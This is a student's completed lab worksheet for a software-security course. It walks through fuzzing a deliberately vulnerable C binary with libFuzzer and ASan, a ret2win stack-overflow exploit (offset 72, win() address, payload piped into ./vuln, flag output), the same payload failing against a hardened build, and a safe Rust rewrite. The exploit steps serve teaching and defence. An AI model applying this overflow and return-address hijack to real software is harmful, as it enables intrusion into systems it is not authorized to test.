







# Worksheet 11 — Memory-Safety & Exploitation (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 11
> **Aligned:** CWE-121 (stack-based buffer overflow) · CWE-787 (out-of-bounds write) · CWE-134 (externally-controlled format string) · CWE-242 (dangerous `gets`)
> **Signature game:** 💥 Fuzzing Race → Pwn the Binary
>
> **Ethics note:** The binaries built from `vuln.c` are **intentionally exploitable** and `win()` spawns `/bin/sh`. Build and run them **only inside the isolated toolbox container** (or a VM) — never on your host. Never run these on a machine you care about, and never aim these techniques at software you are not authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
|  Pirisa Kitichai    |   6631503031  |  10/10/2569    |       |


## Part 2 — Lecture Questions

### 1. Draw the x86-64 stack frame for `parse_input()` in `vuln.c` (buf[64], saved RBP, saved return address). Where does `strcpy` start writing and which word must the exploit overwrite?

A typical x86-64 stack frame for `parse_input()` looks like this:

```text
        Higher Memory Addresses
        +---------------------------+
        | Saved Return Address      |  <-- Target of ret2win
        +---------------------------+
        | Saved RBP (8 bytes)       |
        +---------------------------+
        | buf[64] (64 bytes)        |  <-- strcpy starts here
        |                           |
        +---------------------------+
        Lower Memory Addresses
```

`strcpy()` begins writing at the start of `buf[64]` and continues until it reaches the null terminator, without checking the destination buffer's size. If the input exceeds the buffer capacity, it can overwrite adjacent stack data, including the saved RBP and the saved return address.

The exploit must overwrite the saved return address with the address of `win()` so that execution jumps to `win()` when `parse_input()` returns. In the illustrated layout, the distance from the beginning of `buf` to the return address is 72 bytes, but the actual offset must be verified with debugging because stack layouts can vary.

### 2. Why is `gets()` (CWE-242) impossible to use safely, and why did C11 remove it from the standard library?

`gets()` reads input into a character buffer without knowing its capacity and without checking how many characters are written. If the input is longer than the destination buffer, it can overwrite memory and cause a crash or allow an attacker to change program behavior.

It was removed from the C11 standard because there is no reliable way for `gets()` to prevent buffer overflow. A safer alternative is `fgets()`, which accepts the buffer size and limits the number of characters read.

### 3. Explain CWE-134: why is `printf(user_input)` dangerous but `printf("%s", user_input)` safe? What can `%n` do?

`printf(user_input)` is dangerous because the program treats user-controlled text as a format string. An attacker may insert format specifiers such as `%x`, `%p`, or `%n` to access unintended memory or potentially modify memory.

`printf("%s", user_input)` is safer because the format string is fixed and the user input is treated as ordinary text rather than formatting instructions.

The `%n` specifier writes the number of characters printed so far into a memory address supplied through a corresponding argument. If an attacker controls the format string and can influence the relevant arguments, `%n` may enable unauthorized memory writes.

### 4. Name the four mitigations in the hardened build (`make vuln-hardened`) — stack canary, PIE/ASLR, NX/DEP, FORTIFY — and say which one each defeats: ret2win, shellcode-on-stack, return-address overwrite detection.

| Mitigation | How It Works | Security Effect |
|---|---|---|
| Stack Canary | Places a secret value between local buffers and control data; checks it before returning. | Detects common stack-based return-address overwrites. |
| PIE / ASLR | Randomizes the executable's memory addresses between runs. | Makes fixed-address ret2win attacks unreliable. |
| NX / DEP | Marks stack memory as non-executable. | Prevents execution of injected shellcode on the stack. |
| FORTIFY_SOURCE | Adds compiler-assisted bounds checks to supported operations such as `strcpy()` when object sizes are known. | Can detect and terminate an overflowing copy before control data is overwritten. |

These defenses provide different layers of protection. Stack canaries and FORTIFY_SOURCE can detect certain buffer overflows, PIE/ASLR makes control-flow targets difficult to predict, and NX/DEP prevents execution of code injected into non-executable memory.

No individual mitigation eliminates every memory-safety vulnerability.

### 5. The CISA/ONCD roadmaps push memory-safe languages. Using `safe.rs`, explain why CWE-121 is impossible in safe Rust, not merely harder.

Safe Rust prevents stack-based buffer overflow because it does not allow unchecked writes beyond the bounds of an allocated object. Types such as `String` and `&str` manage text safely, and array or slice indexing is checked at runtime to prevent out-of-bounds memory access.

Unlike C functions such as `strcpy()`, safe Rust does not permit arbitrary pointer arithmetic or direct memory corruption through ordinary string operations. If an index is invalid, Rust stops the operation by panicking rather than writing beyond the buffer.

Therefore, the classic CWE-121 stack-buffer-overflow mechanism cannot occur through safe Rust operations. This guarantee applies to code that remains within safe Rust; `unsafe` blocks and external native libraries require separate security review.


## Part 3 — Hands-on Lab (145 min)


**Learning goals:** Find the overflow with a coverage-guided fuzzer, exploit it (ret2win), watch mitigations break the exploit, then port the routine to safe Rust.

**Prerequisites:** the **toolbox container** (bundles `clang`+libFuzzer, `gdb`, `objdump`, `python3`) — Apple clang has no libFuzzer and `gdb` is painful on macOS, so do this week in the container. (`pip install pwntools` and `rustc` inside as needed; an isolated Linux VM also works.)

**Environment setup**
```bash
# from the repo root, build the toolbox once, then open a shell IN this week's folder:
docker build -t softsec-toolbox labs/toolbox
docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined \
    -v "$PWD/labs/week11-memory-safety-exploitation":/work -w /work softsec-toolbox
# --- inside the container ---
make vuln                                          # teaching build: mitigations OFF
make vuln-hardened                                 # mitigations ON
clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz   # libFuzzer + ASan
setarch `uname -m` -R ./vuln                       # disable ASLR for repeatable addresses
```

**What to submit per task:** the exact command(s) + crash/exploit output, a screenshot, and a 2–3 sentence mitigation note tied to the CWE.

### Task 0 — Onboarding (15 min)
Run `make syntax` (parses both C files even on macOS) and confirm `make vuln` / `make vuln-hardened` build. Read the bug-class banner in `vuln.c`.
**Deliverable:** build output + the list of CWEs `vuln.c` claims to demonstrate.

#### Evidence

**Evidence 1 — Source Code and Vulnerability Identification**



**Evidence 2 — Syntax Check and Build Results**



### Task 1 — Fuzzing Race: find the crash (35 min)
**Goal:** Make libFuzzer + AddressSanitizer crash on the `strcpy` overflow in `parse_input()` — CWE-121/787.
**Steps:**
1. `./fuzz -runs=100000` (or just `./fuzz`).
2. Read the ASan report — note `stack-buffer-overflow` inside `parse_input` and the saved `crash-<hash>` file.
3. Replay it: `./fuzz crash-<hash>`.
**Deliverable:** the ASan crash summary + the byte length of the crashing input + mitigation note.


### Task 1 — Fuzzing Race: Find the Crash (35 min)

**Objective:** Use libFuzzer and AddressSanitizer (ASan) to discover and reproduce a stack-based buffer overflow in `parse_input()`.

#### 1. Commands Executed

The following commands were executed inside the isolated Docker toolbox container.

```bash
# Compile the fuzzer with AddressSanitizer
clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz

# Run coverage-guided fuzzing
./fuzz -runs=100000

# Verify the generated crash artifact and its size
ls -l crash-*
wc -c crash-*

# Replay the crashing input using a corpus directory
mkdir -p replay-corpus
cp crash-* replay-corpus/
./fuzz -runs=1 replay-corpus
```

#### 2. Fuzzing Results

The fuzzer discovered an input that triggered a stack-based buffer overflow and saved it as a crash artifact.

**Crash File:**

`crash-7c455ddff1520f9f6130634ebad99b133f131975`

**Crashing Input Length:** 68 bytes

**Affected Function:** `parse_input()`

**Vulnerable Operation:** `strcpy()`

**ASan Crash Summary:**

```text
ERROR: AddressSanitizer: stack-buffer-overflow
WRITE of size 69
#0 in strcpy
#1 in parse_input /work/fuzz_harness.c:33:5
#2 in LLVMFuzzerTestOneInput /work/fuzz_harness.c:51:5

Address is located in the stack frame of parse_input.
[32, 96) 'buf' (line 32)
Memory access at offset 96 overflows this variable.

SUMMARY: AddressSanitizer: stack-buffer-overflow in strcpy
ABORTING
```

The AddressSanitizer report confirms that the input caused an out-of-bounds write beyond the allocated stack buffer.

#### 3. Crash Reproduction

To verify the vulnerability, I copied the generated crashing input into a corpus directory and executed the fuzzer again.

**Replay Command:**

```bash
./fuzz -runs=1 replay-corpus
```

**Actual Result: PASS — Crash successfully reproduced.**

The replay produced the same type of AddressSanitizer error:

```text
ERROR: AddressSanitizer: stack-buffer-overflow
WRITE of size 69
#0 in parse_input /work/fuzz_harness.c:33:5
SUMMARY: AddressSanitizer: stack-buffer-overflow
ABORTING
```

The original crashing input was 68 bytes long, while `strcpy()` attempted to write 69 bytes including the null terminator into a 64-byte stack buffer.

This confirms that the overflow can be reproduced consistently with the saved test input.

#### 4. Why the Vulnerability Worked

The function `parse_input()` copies user-controlled input into a fixed-size 64-byte stack buffer using `strcpy()` without checking whether the input fits.

When the input contains 68 bytes, the copy writes beyond the allocated memory and corrupts adjacent stack memory. AddressSanitizer detects this invalid write and terminates the program before the memory corruption can continue.

**CWE Mapping:**

| CWE | Vulnerability | Explanation |
|---|---|---|
| CWE-121 | Stack-Based Buffer Overflow | The input exceeds the capacity of a local stack buffer. |
| CWE-787 | Out-of-Bounds Write | `strcpy()` writes data beyond the buffer boundary. |

#### 5. Mitigation

The vulnerability can be prevented by validating the input length and rejecting data that cannot fit into the destination buffer, including its null terminator. Using correctly bounded string-handling functions and enabling compiler protections can reduce the risk of memory corruption.

AddressSanitizer is useful for detecting memory errors during testing, while a memory-safe language such as Rust can prevent unchecked out-of-bounds writes through safe operations.

#### 6. Evidence

**Evidence 1 — Initial Fuzzer Crash**



### Task 2 — Pwn the Binary: ret2win (40 min)
**Goal:** Overwrite the saved return address so the binary returns into `win()` and prints `FLAG{stack_smashing_for_fun_and_education}` — CWE-121.
**Steps:**
1. Find `win()`'s address: `objdump -d vuln | grep '<win>:'` (or `gdb -batch -ex 'p win' ./vuln`).
2. Verify the offset with a cyclic pattern (do **not** trust 72 blindly): feed `cyclic(200)`, crash in gdb, `cyclic_find` the value in RIP. (On an Apple Silicon/arm64 Mac the toolbox has no platform pin, so it builds as an **aarch64** container — there is no `RIP`; use `info registers pc` / `p/x $pc` instead, and expect `SIGBUS`, not `SIGSEGV`. The offset itself is still 72 here.)
3. Edit `exploit_skeleton.py`: set `WIN_ADDR` to the address from step 1, confirm `OFFSET`.
4. `python3 exploit_skeleton.py` (pwntools path) — or `python3 exploit_skeleton.py | ./vuln`. (On arm64: the flag still prints, but the process then loops forever re-printing `[+] win() reached` instead of exiting — ARM64 keeps the return address in register `x30`, which still holds `win()`'s own address when it starts, so `win()`'s `ret` returns into itself. Expected; `Ctrl-C` once you've captured the flag.)
**Deliverable:** the verified `OFFSET`, your `WIN_ADDR`, and the printed flag / `[+] win() reached` line.


### Task 2 — Pwn the Binary: ret2win (40 min)

**Objective:** Exploit the stack-based buffer overflow in `parse_input()` to overwrite the saved return address and redirect execution to `win()`.

#### 1. Address Discovery

I used `objdump` to locate the `win()` function in the vulnerable binary.

**Command:**

```bash
objdump -d vuln | grep -A1 '<win>:'
```

**Actual Result:**

```text
0000000000401196 <win>:
  401196: 55    push %rbp
```

**WIN_ADDR:** `0x401196`

**Architecture:** `x86_64`

#### 2. Offset Verification

I inspected the stack frame using GDB and the disassembled instructions of `parse_input()`.

The assembly showed that the local buffer starts at `RBP - 0x40`, while GDB showed that the saved return address is located at `RBP + 8`.

Therefore, the distance from the start of the buffer to the saved return address is:

```text
64 bytes (buffer) + 8 bytes (saved RBP) = 72 bytes
```

**Verified OFFSET:** `72 bytes`

#### 3. Exploit Configuration

I updated `exploit_skeleton.py` using the values verified from the compiled binary.

```python
OFFSET = 72
WIN_ADDR = 0x401196
```

The payload contains 72 padding bytes followed by the address of `win()` encoded in little-endian format.

#### 4. Exploit Execution

Because `pwntools` was not installed, I used the script's standard-library fallback and piped the generated payload into the vulnerable binary.

**Command:**

```bash
python3 exploit_skeleton.py | ./vuln
```

**Actual Output:**

```text
Enter your name:

[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}
Segmentation fault (core dumped)
```

**Result: PASS — ret2win exploitation succeeded.**

The overwritten return address redirected execution into `win()`, which printed the expected flag. The segmentation fault occurred after the flag was printed and does not invalidate the successful control-flow redirection.

#### 5. Why the Vulnerability Worked

The `parse_input()` function uses `strcpy()` to copy attacker-controlled input into a fixed-size 64-byte stack buffer without checking its length. The payload overwrote the saved return address at offset 72 with the address of `win()`.

When the function returned, the CPU used the overwritten address and executed `win()` instead of returning to the original caller.

**CWE Mapping:** CWE-121 — Stack-Based Buffer Overflow, and CWE-787 — Out-of-Bounds Write.

#### 6. Mitigation

Stack canaries can detect corruption of stack control data, while PIE/ASLR makes fixed function addresses less predictable. FORTIFY_SOURCE can detect certain oversized copies, and replacing unsafe string operations with properly bounded logic prevents the underlying buffer overflow.

#### 7. Evidence

**Task 2 — Verified Offset, ret2win Execution, and Flag**


### Task 2 — Pwn the Binary: ret2win (40 min)

**Objective:** Exploit the stack-based buffer overflow in `parse_input()` to overwrite the saved return address and redirect program execution to the `win()` function.

#### 1. Environment and Architecture

The experiment was performed inside the isolated Docker toolbox container using the intentionally vulnerable executable `vuln`.

**Commands:**

```bash
uname -m
file vuln
```

**Actual Result:**

- Architecture: `x86_64`
- Binary: ELF 64-bit executable
- Vulnerable build: Stack protector disabled, executable stack enabled, and PIE disabled

#### 2. Finding the Address of `win()`

I used `objdump` to identify the address of the target function.

**Command:**

```bash
objdump -d vuln | grep -A1 '<win>:'
```

**Actual Output:**

```text
0000000000401196 <win>:
  401196: 55    push %rbp
```

**Verified WIN_ADDR:** `0x401196`

Since the teaching binary was compiled with `-no-pie`, the function address is fixed within this build.

#### 3. Verifying the Buffer Overflow Offset

I examined the stack frame using GDB and inspected the assembly instructions of `parse_input()`.

**GDB Command:**

```bash
gdb -q -batch \
  -ex 'break parse_input' \
  -ex 'run' \
  -ex 'info frame' \
  -ex 'print &buf' \
  ./vuln
```

I entered `Alice` when the program requested input.

**Relevant GDB Output:**

```text
Breakpoint 1, 0x0000000000401201 in parse_input ()
Stack level 0, frame at 0x7fffffffeb00:
rip = 0x401201 in parse_input
saved rip = 0x401267

Saved registers:
  rbp at 0x7fffffffeaf0
  rip at 0x7fffffffeaf8

No symbol table is loaded.
```

Since the binary did not contain debugging symbols, GDB could not directly display the address of `buf`.

I therefore examined the compiled assembly.

**Command:**

```bash
objdump -d vuln | grep -A35 '<parse_input>:'
```

**Relevant Assembly:**

```asm
40120d: lea -0x40(%rbp), %rax
401217: call 401050 <strcpy@plt>
```

The buffer begins at `RBP - 0x40`, while the saved return address is located at `RBP + 8`.

**Offset Calculation:**

```text
Buffer size       = 64 bytes
Saved RBP         =  8 bytes
----------------------------
Return offset     = 72 bytes
```

**Verified OFFSET:** `72 bytes`

#### 4. Exploit Configuration

I updated `exploit_skeleton.py` with the address and offset verified from the compiled binary.

```python
OFFSET = 72
WIN_ADDR = 0x401196
```

The exploit constructs a payload containing 72 padding bytes followed by the address of `win()` encoded in little-endian format.

This causes the saved return address to point to `win()` instead of the original calling function.

#### 5. Exploit Execution

Because `pwntools` was not installed in the toolbox container, the script used its standard-library fallback.

I piped the generated payload into the vulnerable executable.

**Command:**

```bash
python3 exploit_skeleton.py | ./vuln
```

**Actual Output:**

```text
Enter your name:

[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}
Segmentation fault (core dumped)
```

**Result: PASS — ret2win exploitation succeeded.**

The program executed `win()` and printed the expected flag, confirming that the saved return address was overwritten successfully.

The segmentation fault occurred after the flag was printed. This does not invalidate the successful control-flow hijacking, although the process did not exit normally.

#### 6. Vulnerability Analysis and Mitigation

**Why the Exploit Worked:**

The `parse_input()` function uses `strcpy()` to copy attacker-controlled input into a fixed-size 64-byte stack buffer without validating its length. The crafted payload overwrote the saved return address at offset 72 with the address of `win()`. When the function returned, execution was redirected to `win()` instead of the original caller.

**CWE Mapping:**

| CWE | Vulnerability | Explanation |
|---|---|---|
| CWE-121 | Stack-Based Buffer Overflow | Input data exceeded the capacity of the local stack buffer. |
| CWE-787 | Out-of-Bounds Write | `strcpy()` overwrote memory outside the allocated buffer. |

**Mitigation:**

The program should validate input length and prevent copies that exceed the destination buffer's capacity. Stack canaries can detect common stack corruption, while PIE/ASLR makes fixed-address control-flow hijacking less reliable. FORTIFY_SOURCE can detect certain overflowing string operations, and memory-safe languages such as Rust prevent unchecked buffer writes in safe code.

#### 7. Evidence

**Task 2 — Verified Offset, ret2win Exploit, and Flag**



The screenshot shows:

- `OFFSET = 72`
- `WIN_ADDR = 0x401196`
- Successful execution of `win()`
- `FLAG{stack_smashing_for_fun_and_education}`
- Terminal identity proof with student ID and timestamp

The experiment was conducted only inside the isolated Docker toolbox environment.

### Task 3 — Hardened rebuild: watch the exploit break (25 min)

```sim
stack-frame
```

**Goal:** Observe modern mitigations defeating the same payload.
**Steps:**
1. Run your Task 2 payload against `./vuln-hardened`.
2. Record the failure mode: `*** buffer overflow detected ***: terminated` (FORTIFY_SOURCE's `__strcpy_chk`, which on this build catches the overflow before the stack canary's epilogue check ever runs), or a SIGSEGV at a randomized address (PIE/ASLR makes `WIN_ADDR` wrong).
**Deliverable:** the crash message + a note explaining *which* mitigation fired and why the fixed `WIN_ADDR` no longer works.


### Task 3 — Hardened Rebuild: Watch the Exploit Break (25 min)

**Objective:** Test the same ret2win payload against the hardened binary and observe how security mitigations prevent exploitation.

#### 1. Test Environment

The experiment was performed inside the isolated Docker toolbox container.

The hardened binary was compiled using the following command:

```bash
gcc -fstack-protector-strong -fPIE -pie -z noexecstack \
    -D_FORTIFY_SOURCE=2 -O2 -o vuln-hardened vuln.c
```

The hardened build enables stack canaries, PIE, a non-executable stack (NX), and FORTIFY_SOURCE.

#### 2. Exploit Execution

I reused the same payload from Task 2, with the verified offset and function address:

```python
OFFSET = 72
WIN_ADDR = 0x401196
```

**Command:**

```bash
python3 exploit_skeleton.py | ./vuln-hardened
```

**Actual Output:**

```text
Enter your name:
*** buffer overflow detected ***: terminated
Aborted (core dumped)
```

**Result: PASS — The original ret2win exploit was blocked by the hardened build.**

The program terminated before executing `win()`, and the flag was not printed.

#### 3. Vulnerable vs. Hardened Comparison

| Feature | Vulnerable Build | Hardened Build |
|---|---|---|
| Stack Canary | Disabled | Enabled |
| PIE / ASLR | PIE disabled | PIE enabled; ASLR provides address randomization |
| NX / DEP | Executable stack | Non-executable stack |
| FORTIFY_SOURCE | Disabled | Enabled |
| ret2win Result | Successful | Blocked |
| Flag Printed | Yes | No |

#### 4. Why the Exploit Failed

The hardened binary detected the buffer overflow and terminated with the message `*** buffer overflow detected ***`.

This is consistent with FORTIFY_SOURCE detecting the unsafe `strcpy()` operation through `__strcpy_chk` before the function returns. Therefore, the overwritten return address could not be used to redirect execution to `win()`.

PIE/ASLR also makes the original fixed `WIN_ADDR = 0x401196` unreliable because function addresses are no longer fixed between executions. Stack canaries can detect corruption of stack control data, while NX prevents execution of injected shellcode on the stack.

The observed termination demonstrates the effect of the hardened build, but this single test does not independently prove that every mitigation was triggered.

#### 5. Mitigation Note

**CWE-121 — Stack-Based Buffer Overflow:** FORTIFY_SOURCE can detect certain overflowing string copies and terminate execution before control-flow hijacking occurs. Stack canaries provide an additional detection mechanism, while PIE/ASLR and NX make exploitation more difficult.

However, the underlying unsafe C operation remains in the source code. A stronger long-term fix is to remove unchecked memory operations and use bounds-checked logic or a memory-safe language such as Rust.

#### 6. Evidence

**Task 3 — Hardened Binary Blocks ret2win**




### Task 4 — Rust rewrite: defend / fix it (30 min)
**Goal:** Show the bug class disappears in safe Rust using `safe.rs`.
**Steps:**
1. `rustc safe.rs && ./safe`, then `python3 -c "print('A'*5000)" | ./safe` — note it never overflows or crashes.
2. Feed format-string metacharacters: `printf '%%x %%n' | ./safe` — note the program just reports the character count with no crash and no stack leak; the input is treated as ordinary data (CWE-134 impossible: `println!`'s format string must be a compile-time literal, so `println!(line)` would not even compile).
3. From the inline comments, write *why* `String`/`&str` + bounds checks make CWE-121/787 impossible.
**Deliverable:** the safe output for both inputs + a 3–4 sentence explanation tying it to the CISA memory-safe roadmap.


### Task 4 — Rust Rewrite: Defend / Fix It (30 min)

**Objective:** Verify that the safe Rust implementation handles long inputs and format-string characters without the memory-corruption vulnerabilities found in the C program.

#### 1. Commands Executed

```bash
rustc --version
rustc safe.rs -o safe
python3 -c "print('A'*5000)" | ./safe
printf '%%x %%n\n' | ./safe
```

#### 2. Actual Test Results

**Rust Compiler:** `rustc 1.63.0`

**Test 1 — Long Input (5,000 Characters)**

```text
Hello, your input was 5000 characters long.
```

**Result:** PASS — The program handled the long input without crashing.

**Test 2 — Format String Characters (`%x %n`)**

```text
Hello, your input was 5 characters long.
```

**Result:** PASS — The program treated the format-string characters as ordinary input.

| Test Case | Actual Result | Status |
|---|---|---|
| Compile `safe.rs` | Successful | PASS |
| 5,000-character input | Reported 5,000 characters | PASS |
| `%x %n` input | Reported 5 characters | PASS |
| Stack overflow or segmentation fault | Not observed | PASS |

#### 3. Security Explanation

Safe Rust uses memory-safe types such as `String` and `&str` instead of unchecked C-style character buffers. Safe operations cannot write beyond allocated memory, and invalid array or slice indexing is checked rather than causing uncontrolled memory corruption.

Rust also requires formatting instructions in macros such as `println!` to be defined in the source code. Therefore, input containing `%x` or `%n` is treated as data and cannot act as a C-style format-string instruction.

These protections support the CISA/ONCD recommendation to adopt memory-safe languages because they prevent entire classes of memory-safety vulnerabilities instead of only making exploitation more difficult. However, code using `unsafe` Rust or external native libraries still requires careful review.

#### 4. Mitigation Note

**CWE-121 / CWE-787:** Safe Rust prevents unchecked out-of-bounds memory writes through its ownership, type, and bounds-checking mechanisms.

**CWE-134:** Rust's formatting macros do not interpret user-controlled strings as executable format instructions.

#### 5. Evidence

**Task 4 — Safe Rust Compilation and Input Testing**




## Part 4 — Reflection

### 1. Mapping: Vulnerabilities, Functions, CWEs, and Mitigations

| Bug / Vulnerability | Function in `vuln.c` | CWE | Mitigation |
|---|---|---|---|
| Stack-based buffer overflow | `parse_input()` using `strcpy()` | CWE-121 | Stack canary detects common stack corruption; safe Rust prevents unchecked buffer writes. |
| Out-of-bounds write | `parse_input()` using `strcpy()` | CWE-787 | Bounds checking and safe Rust prevent writes beyond allocated memory. |
| Unbounded input reading | `vulnerable()` using `gets()` | CWE-242 | Replace `gets()` with bounded input handling such as `fgets()`, or use safe Rust input APIs. |
| Externally controlled format string | `vulnerable()` using `printf(user_input)` | CWE-134 | Use a fixed format string such as `printf("%s", user_input)` or Rust formatting macros. |
| Return-address hijacking (ret2win) | `parse_input()` and the return into `win()` | CWE-121 / CWE-787 | Stack canary and FORTIFY_SOURCE detect certain overwrites; PIE/ASLR makes fixed target addresses unreliable. |
| Stack-injected shellcode execution | Potential consequence of the stack overflow | CWE-121 | NX/DEP prevents execution of injected code on the stack. |

**Reflection:**

The vulnerable C program contains unsafe memory operations that allow user-controlled input to overwrite adjacent stack memory. In Task 2, I successfully redirected execution to `win()` using an offset of 72 bytes and a function address of `0x401196`.

In Task 3, the hardened program terminated with `*** buffer overflow detected ***`, consistent with FORTIFY_SOURCE detecting the overflow before the return address could be used. This demonstrates the benefits of layered defenses, although the unsafe copy still exists in the C source code.

### 2. Real-World Incident: Morris Worm (1988)

**Incident:** Morris Worm — fingerd Buffer Overflow (1988)

The Morris Worm exploited multiple weaknesses in Unix systems, including a buffer overflow in the `fingerd` network service. The vulnerable service accepted input without properly limiting its length, allowing an attacker to corrupt memory and redirect program execution.

**Relevant CWE:**

